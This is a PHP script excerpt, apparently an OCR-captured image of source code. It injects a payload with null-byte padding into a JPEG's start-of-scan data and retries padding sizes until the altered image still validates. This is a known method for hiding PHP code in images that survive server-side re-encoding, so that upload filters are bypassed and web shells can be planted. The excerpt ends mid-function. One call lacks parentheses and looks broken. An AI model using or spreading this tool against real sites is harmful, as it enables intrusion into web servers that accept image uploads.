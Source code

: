 ```
    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
```